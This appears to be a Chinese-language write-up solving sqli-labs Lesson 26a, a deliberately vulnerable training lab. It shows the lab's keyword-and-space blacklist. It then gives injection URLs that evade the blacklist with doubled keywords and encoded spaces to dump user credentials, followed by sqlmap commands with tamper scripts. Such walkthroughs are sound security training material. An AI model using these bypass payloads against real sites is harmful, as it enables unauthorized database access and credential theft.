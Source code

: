 ```yaml
---
title: sqli-labs lession-26a GET基于错误-你的空格和注释归我所有-字符型-括号
date: 2018-10-06 12:48:17
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-26a GET基于错误-你的空格和注释归我所有-字符型-括号

---

## 登录界面

![001](/img/sql/Lesson-26a/001.png)

## 手注

```
function blacklist($id)
{
	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
	$id= preg_replace('/[--]/',"", $id);		//Strip out --
	$id= preg_replace('/[#]/',"", $id);			//Strip out #
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
	return $id;
}
```

和Lesson-26一样过滤了or,and,/,*,#,空格,\。过滤方式没有变化。但是这里不能利用报错注入了。

### 判断类型

`http://192.168.75.132/sql/Less-26a/?id=2')%26%26('1`

使用了`（''）`进行闭合。

![002](/img/sql/Lesson-26a/002.png)

### 获取列数

`http://192.168.75.132/sql/Less-26a/?id=1'%26%261=2)union%A0select%A01,2,3%7c%7c('1`

![003](/img/sql/Lesson-26a/003.png)

### 获取数据库名

`http://192.168.75.132/sql/Less-26a/?id=1'%26%261=2)union%A0select%A01,(database()),3%7c%7c('1`

![004](/img/sql/Lesson-26a/004.png)

### 获取表名

`http://192.168.75.132/sql/Less-26a/?id=1'%26%261=2)union%A0select(1),(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security')),3%7c%7c('1`

![005](/img/sql/Lesson-26a/005.png)

### 获取列名

`http://192.168.75.132/sql/Less-26a/?id=1'%26%261=2)union%A0select(1),(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_name='users')),3%7c%7c('1`

![006](/img/sql/Lesson-26a/006.png)

### 获取字段

`http://192.168.75.132/sql/Less-26a/?id=1'%26%261=2)union%A0select(1),(select(group_concat(id,'~',username,'~',passwoorrd))from(security.users)),3%7c%7c('1`

![007](/img/sql/Lesson-26a/007.png)

## SQLMAP

拿直接的绕过脚本直接用就可以了。

`python sqlmap.py -u "http://192.168.75.132/sql/Less-26a/?id=1" --threads 10  --dbms mysql --tamper "andor.py,space0A.py,count.py" --fresh-queries --flush-session`

![008](/img/sql/Lesson-26a/008.png)

![009](/img/sql/Lesson-26a/009.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-26a/?id=1" --threads 10  --dbms mysql --tamper "andor.py,space0A.py,count.py" --dbs`

![010](/img/sql/Lesson-26a/010.png)

![011](/img/sql/Lesson-26a/011.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-26a/?id=1" --threads 10  --dbms mysql --tamper "andor.py,space0A.py,count.py" -D security --tables`

![012](/img/sql/Lesson-26a/012.png)

`python sqlmap.py -u "http://192.168.75.132/sql/Less-26a/?id=1" --threads 10  --dbms mysql --tamper "andor.py,space0A.py,count.py" -D security -T users --columns --dump`

![013](/img/sql/Lesson-26a/013.png)